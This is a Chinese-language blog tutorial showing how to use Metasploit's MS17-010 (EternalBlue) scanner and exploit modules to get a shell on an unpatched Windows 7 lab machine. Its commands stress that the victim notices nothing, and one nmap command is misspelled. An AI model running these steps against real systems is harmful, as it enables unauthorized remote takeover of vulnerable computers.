








#内网渗透超级好用，永恒之蓝了解一下

##Eternalblue漏洞介绍
永恒之蓝（英语：EternalBlue）是美国国家安全局开发的漏洞利用程序，于2017年4月14日被黑客组织泄漏。该工具利用445/TCP端口的文件分享协议的漏洞进行散播，被影响的Windows版本不计其数，**该漏洞可以不需要victim执行任何的操作，就可以远程控制victim的电脑**

马上开始我们的教程
------------------------------------------------------------------------


攻击者：Kali           IP地址:192.168.43.196

victim：Windows7       IP地址:192.168.43.14

这次我们用到的MS17-010模块，MSF框架里面已经集成了，所以我们不需要手动添加模块
上述提到永恒之蓝是利用TCP的445端口进行传播，那我们首先需要知道目标是否开启了445端口，在还没有打上补丁之前，默认该端口是开启的，*如果该端口没有开启便无法渗透成功*
##我们使用nmap来扫描一下victim的端口状态
```
namp -Pn 192.168.43.14
```


从上述的扫描结果可以知道该主机的135,139,**445**等端口是开启的，并且可以看到每个端口对应的服务是什么，满足该条件之后，我们接着来扫描一下目标主机是否有这个漏洞，一般445端口开启都会满足
##接着加载MSF框架，使用search找到有关于MS17-010扫描模块
```
search ms17_010
```


从图片中可以看到有一个和scanner相关的，我们首先使用该模块来扫描一下
```
use auxiliary/scanner/smb/smb_ms17_010
```
使用该模块之后，我们来查看一下相关的参数
```
show options
```


别看这么多参数，我们只需要设置一个参数就好了，我们需要通过RHOSTS参数来指定我们扫描的对象是谁
```
set RHOST x.x.x.x
```


接下来
```
exploit
```
来测试是否满足条件，可以进行渗透测试


从图片中显示的***Host is likely VULNERABLE to MS17-010!***可以得知是满足渗透测试的条件
##接着我们使用MS17-010模块进行渗透
```
use exploit/windows/smb/ms17_010_eternalblue
```


一样先查看参数
```
show options
```

也一样显示很多参数，我们还是只需要设置一个参数，那就是RHOSTS，该参数代表victim的IP地址
```
set RHOSTS x.x.x.x
```

设置完成之后再来一条
```
exploit
```
出现该页面说明渗透成功


图片中出现了Windows系统才会有的C盘，这个时候我们已经获取到了victim的shell，可以对该电脑写入文件，查看信息之类的，***注意：此时victim是毫无察觉的，也不需要用户指定任何的操作***

比如查看victim用户几个账户



这个教程比较简单，赶快动手试试吧!

更多优质渗透教程，欢迎访问B站，来关注，投币点赞啊
[B站频道传送门](https://space.bilibili.com/184594996/ "Bilibili")

***如果帮助到你，希望可以得到你的打赏***